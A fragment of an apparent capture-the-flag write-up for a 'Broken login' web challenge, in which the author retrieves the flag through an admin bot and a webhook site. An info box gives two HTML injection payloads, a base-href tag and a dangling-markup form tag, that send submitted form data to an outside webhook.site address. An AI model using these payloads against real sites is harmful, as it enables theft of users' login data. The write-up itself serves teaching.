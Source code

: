 Now we provide the URL to the admin bot and go to our webhook site and there we get the flag!

![getting the flag!](/assets/img/Brokenlogin3.png){: .shadow  }

And then URL decoding it to get the flag!

> Instead of providing full form as we did, we could instead either inject `<base href='http://webhook.site/your_webhook_id'>`, this is possible here because the path in the action attribute is not the full path with the website like, so this <base> tag tells the form that for any data you send the base url or the host will be our webhook site, the other way is to do Dangling Markup Attack, this can be done by injecting `<form action='http://webhook.site/your_webhook_id'> x="`, what this does is that the open quote of the fake x attribute will consider anything that comes after it as a string until the next quote, effectively eating up the form tag and its action attribute that is provided by the actual form and the form!!, read more about this attack from this [HackTricks](https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection) article
{: .prompt-info }

#### Learned: `SSTI`,`HTML Injection`,`Dangling Markup Attack`, `XSS`
